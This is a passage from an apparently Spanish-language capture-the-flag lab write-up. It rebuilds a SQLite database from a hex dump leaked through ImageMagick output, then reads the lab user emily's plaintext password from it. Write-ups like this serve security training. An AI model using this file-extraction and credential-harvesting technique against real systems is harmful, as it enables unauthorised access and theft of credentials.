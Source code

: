 ```bash
   20480
53514c69746520666f726d61742033001000010100402020000000460000000500000000
000000000000000400000004000000000000000000000001000000000000000000000000
000000000000000000000000000000000000000000000046002e4b910d0ff800040eba00
0f650fcd0eba0f3800000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000

...[snip]...

000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
00000032036901687474703a2f2f70696c6772696d6167652e6874622f736872756e6b2f
363762336365666630356565302e706e670231036909687474703a2f2f70696c6772696d
6167652e6874622f736872756e6b2f363762336365326465373335612e706e67

    signature: 953524a63488f5590b1f17291c8e8261a87c088552107dc7828c66e5f771c819
  Artifacts:
    filename: 67b3cfa7b9730.png
    verbose: true
  Tainted: False
  Filesize: 66260B
  Number pixels: 76800
  Pixels per second: 22.4797MB
  User time: 0.000u
  Elapsed time: 0:01.003
  Version: ImageMagick 6.9.13-12 Q16 x86_64 18420 https://legacy.imagemagick.org
```

Guardamos todo el contenido en un archivo llamado `data`. Posteriormente, utilizamos el comando `xxd` para convertirlo de vuelta a su formato binario original, generando el archivo `sqlite.db`.

```bash
❯ ls -l data
.rw-rw-r-- kali kali 41 KB Tue Feb 18 01:12:23 2025  data

❯ xxd -r -p data sqlite.db

❯ file sqlite.db
sqlite.db: SQLite 3.x database, last written using SQLite version 3034001, file counter 70, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 70
```

Mediante `sqlite3` accederemos a la base de datos. Enumerando las tablas presentes, nos encontramos con la tabla `users` la cual nos presenta las credenciales en texto plano del usuario `emily`.

```bash
❯ sqlite3 sqlite.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
images  users 
sqlite> select * from users;
emily|abigchonkyboi123
```
